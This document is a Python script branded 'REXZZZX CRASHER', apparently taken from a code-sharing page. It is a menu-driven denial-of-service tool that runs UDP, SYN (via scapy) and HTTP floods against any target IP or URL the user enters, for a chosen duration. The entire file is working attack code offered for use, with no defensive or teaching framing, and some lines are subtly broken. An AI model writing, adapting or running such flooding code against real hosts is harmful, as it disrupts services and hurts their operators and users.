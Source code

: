 #!/usr/bin/env python3
import os
import sys
import time
import socket
import random
import threading
import pyfiglet
from scapy.all import *

class RexzzzxCrasher:
    def __init__(self):
        self.banner = pyfiglet.figlet_format("REXZZZX CRASHER")
        self.author = "Created by REXZZZX TEAM"
        self.version = "v1.0"
        
    def show_menu(self):
        os.system('clear' if os.name == 'posix' else 'cls')
        print(self.banner)
        print(f"{self.author} - {self.version}\n")
        print("1. DDoS Attack (UDP Flood)")
        print("2. DDoS Attack (SYN Flood)")
        print("3. DDoS Attack (HTTP Flood)")
        print("4. Exit")
        
    def udp_flood(self, target_ip, target_port, duration):
        time_end = time.time() + duration
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        bytes = random._urandom(1490)
        
        print(f"\n[+] Starting UDP Flood to {target_ip}:{target_port} for {duration} seconds")
        
        while time.time() < time_end:
            sock.sendto(bytes, (target_ip, target_port))
        
        print("[+] UDP Flood attack completed!")
        
    def syn_flood(self, target_ip, target_port, duration):
        time_end = time.time() + duration
        ip = IP(dst=target_ip)
        tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
        
        print(f"\n[+] Starting SYN Flood to {target_ip}:{target_port} for {duration} seconds")
        
        while time.time() < time_end:
            send(ip/tcp, verbose=0)
        
        print("[+] SYN Flood attack completed!")
        
    def http_flood(self, target_url, duration):
        time_end = time.time() + duration
        headers = [
            "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
            "Accept-Language: en-US,en;q=0.5"
        ]
        
        print(f"\n[+] Starting HTTP Flood to {target_url} for {duration} seconds")
        
        while time.time() < time_end:
            try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((socket.gethostbyname(target_url), 80))
                s.sendto(f"GET / HTTP/1.1\r\nHost: {target_url}\r\n{'\\r\\n'.join(headers)}\r\n\r\n".encode(), (target_url, 80))
                s.close()
            except:
                pass
        
        print("[+] HTTP Flood attack completed!")
        
    def run(self):
        while True:
            self.show_menu()
            choice = input("\nSelect option: ")
            
            if choice == "1":
                target_ip = input("Enter target IP: ")
                target_port = int(input("Enter target port: "))
                duration = int(input("Enter attack duration (seconds): "))
                self.udp_flood(target_ip, target_port, duration)
                
            elif choice == "2":
                target_ip = input("Enter target IP: ")
                target_port = int(input("Enter target port: "))
                duration = int(input("Enter attack duration (seconds): "))
                self.syn_flood(target_ip, target_port, duration)
                
            elif choice == "3":
                target_url = input("Enter target URL (without http://): ")
                duration = int(input("Enter attack duration (seconds): "))
                self.http_flood(target_url, duration)
                
            elif choice == "4":
                print("\n[+] Exiting REXZZZX CRACKER...")
                sys.exit()
                
            else:
                print("\n[!] Invalid option, please try again")
                time.sleep(1)

if __name__ == "__main__":
    try:
        tool = RexzzzxCrasher()
        tool.run()
    except KeyboardInterrupt:
        print("\n[!] Program stopped by user")
        sys.exit()
